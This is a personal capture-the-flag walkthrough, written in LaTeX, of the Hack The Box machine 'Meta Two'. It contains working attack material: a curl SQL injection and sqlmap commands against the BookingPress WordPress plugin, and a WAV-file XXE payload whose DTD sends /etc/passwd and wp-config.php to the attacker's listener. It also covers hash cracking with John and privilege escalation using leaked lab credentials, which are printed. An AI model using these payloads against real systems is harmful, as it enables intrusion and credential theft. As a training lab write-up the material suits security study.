% Created 2023-04-02 Sun 03:58
\documentclass[11pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{longtable}
\usepackage{wrapfig}
\usepackage{rotating}
\usepackage[normalem]{ulem}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{capt-of}
\usepackage{hyperref}
\author{Federico Pontoriero}
\date{\today}
\title{Meta Two}
\hypersetup{
 pdfauthor={Federico Pontoriero},
 pdftitle={Meta Two},
 pdfkeywords={},
 pdfsubject={},
 pdfcreator={Emacs 28.1.91 (Org mode 9.6.1)}, 
 pdflang={English}}
\begin{document}

\maketitle
\tableofcontents


\section{Connection and nmap}
\label{sec:orga5dee41}
First we connect to the openvpn that HTB provides us and spin the machine
Then we will use nmap, as usual for enumeration:

\begin{verbatim}
sudo nmap -sC -sV -T4 10.10.11.186
\end{verbatim}

The options are following:
-sC: to use the default scripts
-sV: probes the open ports for system information
-T4: to define the aggressiveness of the scan

\section{First steps}
\label{sec:org9c3964f}

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80 (http).

The version of OpenSSH that is being used does not seem to be vulnerable but
we can try other things such as connecting through ftp:

\begin{verbatim}
ftp 10.10.11.186
\end{verbatim}

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0 and the
hostname is \url{http://metapress.htb/}.

We then have to go to /etc/hosts and append the ip and hostname using any text
editor.
This allows us to open the hostname in the browser without any problem.

Of course this is true for Linux (which you probably should be using), in Windows is
a little more complicated and I struggled to be able to do this the first time. I
tried to change the host file in System32, then flush the dns and nothing worked.
Finally I simply installed firefox in WSL2 Kali and I use VcXsrv to view all GUI
apps.

One way or another we should be able to browse the page now.

\section{Looking for vulnerabilities}
\label{sec:org2b1a89b}

We can look at the source code and it does not seem to be leaking any credentials
but we can see it's a Wordpress site. We can play around with the forms and
explore a little. Now we will use wpscan which is a command line tool for Wordpress
security.

\begin{verbatim}
wpscan --url http://metapress.htb
\end{verbatim}


You can look them up in \url{https://wpscan.com/wordpress/562} and go through each of
them but if we go back to the source code of the events page we can see that is
using a plugin called Bookingpress and filter our search. In the same page we
can see that there is a SQL injection vulnerability and a proof of concept.  In
the curl command that is provided we can see that is taking advantage of
Wordpress nonces, which we can look in the source code such as the one in the
generateSpamCatcha function.

There is a lot of information there but the first thing that catches the eye is
the fact that is telling us that the version of Wordpress (5.6.2) is identified
as insecure. So we will look for the vulnerabilities associated with this version.

So the command we have to use would look like something like this:
\begin{verbatim}
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services
    &_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
\end{verbatim}


You should replace the nonce with the one that you can find in the source code, and the output will be like this:

\begin{quote}
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[\{``bookingpress\_service\_id'':``10.5.15-MariaDB-0+deb11u1'',
``bookingpress\_category\_id'':``Debian
11'',``bookingpress\_service\_name'':``debian-linux-gnu'',
``bookingpress\_service\_price'':``\$1.00,
''bookingpress\_service\_duration\_val``:''2``,''bookingpress\_service\_duration\_unit``:''3``,
''bookingpress\_service\_description``:''4``,''bookingpress\_service\_position``:''5``,
''bookingpress\_servicedate\_created``:''6``,''service\_price\_without\_currency``:1,''img\_url``:
''\url{http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg}``\}]
\end{quote}

\section{Enumerating databases: Sqlmap}
\label{sec:orgc9272e3}

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

\begin{verbatim}
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php"
--data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc
    &category_id=33&total_service=1" -p "total_service" --dbs
\end{verbatim}
That way we can enumerate the databases present. I had problems with this command
since it kept saying that the connection was not stable but i just kept trying
and eventually I could do it.

The databases that we could found are two: blog and information\_schema.
The first one is the most interesting of the two, clearly.

\begin{verbatim}
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php"
--data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc
    &category_id=33&total_service=1" -D blog --tables
\end{verbatim}
Now we look inside the blog database and enumerate the tables: there is a lot of them
but the first that catches the eye is wp\_users. After some horrible looking output
we can see that it found two users, admin and manager.
Along side the names we can see the hashes that correspond to the passwords, so we
will copy them to a file and try to crack them.

\section{Cracking the passwords: John the Ripper}
\label{sec:org1448994}

\begin{verbatim}
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
\end{verbatim}
We are using John the Reaper which is a hashcracking program, in this case we are
using the classic rockyou wordlist that. I had to decompress the rockyou file before
utilizing the command, just so you know.

We see that it found one password, the manager's which is ``partylikearockstar''.

So we have a username and a password but we have to find out where to enter them.
Although there is no login link in the page, based in our enumeration we know that
there is a subdomain called ``wp-admin''. So if we go to \url{http://metapress.htb/wp-admin}
we will encounter the Wordpress page for authentication, we enter the credentials
and we are in!

\section{Exploiting XXE}
\label{sec:orgc31c680}

Looking around the vulnerabilities of this version of Wordpress I encounter this
article: \url{https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/}
It's a fascinating thing. It essentially uses the metadata of a WAVE file to
inject payload and retrieve information.

\begin{verbatim}
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml
      version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM
       '"'"'http://10.10.14.83:1234/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' >
payload.wav
\end{verbatim}
That is the code that the author suggests, the only thing we should change it's the
ip, replacing it with our own and I also changed the port to 1234 for convenience.

Now if we continue with the article we have to send this payload through a dtd file
which will look like this:

\begin{verbatim}
<!ENTITY % file SYSTEM
"php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25;
          trick SYSTEM 'http://10.10.14.83:1234/?p=%file;'>">
\end{verbatim}

Again we have to modify the ip and port.

We will start a php server:
\begin{verbatim}
php -S 0.0.0.0:1234
\end{verbatim}

And we go the the media page. Then click on add new and upload our payload.wav while
the server is still running. We will get a huge, horrible looking output but we can
decode it using:
\begin{verbatim}
echo -en <payload> | base64 -d
\end{verbatim}

Now the output looks much more interesting since these is the passwd file of the
machine we are trying to pawn. Of course if we analyze it there really is nothing
we can do with this. But it is useful to know that the vulnerability can be
exploited.

If we modify the evil.dtd file that we created before to give us the config file of
the page we might be more lucky.
\begin{verbatim}
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/
         resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM
         'http://10.10.14.83:1234/?p=%file;'>">
\end{verbatim}

So we upload the payload.wav file again and again we decode the output which will
look like this:

\begin{verbatim}
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',
'?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',
  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',
    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',
        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',
        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT',
 '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',
   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',
       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

\end{verbatim}

There is a lot of hashes in there but the interesting thing is that we have a method:
FTP, the user and the password (hashed). We already tried to connect to ftp and we
couldn't so maybe this could prove useful.

\section{Getting the credentials}
\label{sec:org8ab4290}

\begin{verbatim}
ftp 10.10.11.186
\end{verbatim}
And we enter our newly found credentials.

If we list the files using ls, we will see two folders: blog and mailer.
We cd to mailer and then download the send\_email.php file with the get command.
It will download to our current directory and if we cat it we can see that there are
more credentials!

In particular these two could be used for ssh access:
\begin{quote}
\$mail->Username = ``jnelson@metapress.htb'';
\$mail->Password = ``Cb4\_JmWM8zUZWMu@Ys'';
\end{quote}

So we will do that:
\begin{verbatim}
ssh jnelson@metapress.htb
\end{verbatim}
We input the password and we can see that it works!
Now we can do an ls and find out that there is the user.txt file with the flag that
we want.

\section{Escalating the privileges}
\label{sec:org7239e44}

If we try to use sudo we will see that we cannot. However we can see that there is a
.passpie directory. Passpie is a password manager for Linux and there is a .keys
file inside and a ssh directory. We don't really know if we can use this but it is
worth a try.

So we will copy the private key block of the .keys file to our machine and write it
to a file called key. And use gpg2john to write it to another file unhashed:

\begin{verbatim}
gpg2john key > pass_hash
\end{verbatim}

And run it through john again:
\begin{verbatim}
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
\end{verbatim}
And once it is done:
\begin{verbatim}
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
\end{verbatim}

Now we can see that the password is ``blink182''. We don't know what this is for but
we can find out using:

\begin{verbatim}
passpie export pass
\end{verbatim}

And entering ``blink182'' as the Passphrase. Now we can see that the root user has
'p7qfAZt4\_A1xo\_0x' as password.

So we will:
\begin{verbatim}
su root
\end{verbatim}

And enter that as the password and we are in! We are root!

So let's end this, let's go to /root/root.txt and extract our flag from there.

And that is it! I hope this was informative, I am still a noob but I had a great
time trying to crack this.


\includegraphics[width=12cm,height=10cm]{/mnt/c/Users/Federico/Pictures/Screenshots/test.png}
\end{document}